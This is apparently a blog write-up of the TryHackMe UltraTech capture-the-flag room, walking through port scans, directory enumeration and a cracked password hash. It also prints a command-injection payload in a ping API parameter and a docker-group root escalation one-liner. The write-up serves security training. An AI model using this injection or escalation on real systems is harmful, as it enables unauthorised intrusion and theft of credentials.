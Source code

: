 ```yaml
---
title: "UltraTech CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-14
hero: ./images/hero.png
excerpt: "Writeup for the UltraTech CTF room on TryHackMe"
---
```


[TryHackMe | UltraTech CTF](https://tryhackme.com/room/ultratech1)

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.

**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

**Start this room by hitting the "deploy" button on the right!**

Good luck and more importantly, have fun!

# Part 1

After enumerating the services and resources available on this machine, what did you discover?

---

### Setup ✅

```bash
➜  TryHackMe nmap -A -vv 10.10.124.2
```

```bash
21/tcp   open  ftp     syn-ack vsftpd 3.0.3

22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3

8081/tcp open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 Which software is using the port 8081?

```bash
8081/tcp open  http    syn-ack Node.js Express framework
```

```bash
node.js
```

### #2 Which other non-standard port is used?

Since on our first nmap scan we didn't find the port let's scan all the ports

```bash
➜  ~ TryHackMe nmap -A -vv -p- 10.10.124.2
```

```bash
31331/tcp open
```

### #3 Which software using this port?

```bash
apache
```

### #4 Which GNU/Linux distribution seems to be used?

```bash
ubuntu
```

### #5 The software using the port 8080 is a REST api, how many of its routes are used by the web application?

<div className="Image__Medium">
  <img src="https://imgur.com/HJrW4R2.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe gobuster dir -u http://10.10.124.2:8081/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.2:8081/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 17:44:16 Starting gobuster
===============================================================
/auth (Status: 200)
```

<div className="Image__Medium">
  <img src="https://imgur.com/8hEyF02.png" alt="blog_image" />
</div>

# Part 3

---

Now that you know which services are available, it's time to exploit them !

Did you find somewhere you could try to login ? Great !

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

### #1 There is a database lying around, what is its filename?

<div className="Image__Medium">
  <img src="https://imgur.com/tuO0kgU.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/
```

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jun 13 18:30:24 2020
URL_BASE: http://10.10.124.2:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.124.2:31331/ ----
==> DIRECTORY: http://10.10.124.2:31331/css/
+ http://10.10.124.2:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.124.2:31331/images/
+ http://10.10.124.2:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.124.2:31331/javascript/
==> DIRECTORY: http://10.10.124.2:31331/js/
+ http://10.10.124.2:31331/robots.txt (CODE:200|SIZE:53)
+ http://10.10.124.2:31331/server-status (CODE:403|SIZE:302)
```

<div className="Image__Medium">
  <img src="https://imgur.com/JwcnH47.png" alt="blog_image" />
</div>

```bash
Sitemap: /utech_sitemap.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/0QGLxrF.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/4oxDK1P.png" alt="blog_image" />
</div>

As you can see there is some script on the bottom of the page

<div className="Image__Medium">
  <img src="https://imgur.com/bHSVNrk.png" alt="blog_image" />
</div>

```bash
function getAPIURL() {
return `${window.location.hostname}:8081`
function checkAPIStatus() {
const req = new XMLHttpRequest();
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Let's try if we can ping something with the api

<div className="Image__Medium">
  <img src="https://imgur.com/k6dMvGz.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/NiZaChE.png" alt="blog_image" />
</div>

```bash
utech.db.sqlite
```

### #2 What is the first user's password hash?

After some tries, something cool happened, if we cat the database name we can see the user's password hash

```bash
http://10.10.124.2:8081/ping?ip=`cat%20utech.db.sqlite`
```

<div className="Image__Medium">
  <img src="https://imgur.com/BFY62ek.png" alt="blog_image" />
</div>

```bash
r00tf357a0c52799563c7c7b76c1e7543a32
```

### #3 What is the password associated with this hash?

Let's see if in the crack station database we can have the user's password

<div className="Image__Medium">
  <img src="https://imgur.com/ULh9XYu.png" alt="blog_image" />
</div>

Yep ! That worked 🤤

```bash
password : n100906
```

# Part 4

---

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

---

### #1 What are the first 9 characters of the root user's private SSH key?

We can try the api "/auth" 😵

<div className="Image__Medium">
  <img src="https://imgur.com/hQLygDy.png" alt="blog_image" />
</div>

```bash
http://10.10.124.2:8081/auth?login=r00t&password=n100906
```

<div className="Image__Medium">
  <img src="https://imgur.com/k8UD4e5.png" alt="blog_image" />
</div>

As you can see the is the group docker let's try something

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

<div className="Image__Medium">
  <img src="https://imgur.com/dlyIsfn.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/WZFA2m7.png" alt="blog_image" />
</div>

```bash
MIIEogIBA
```


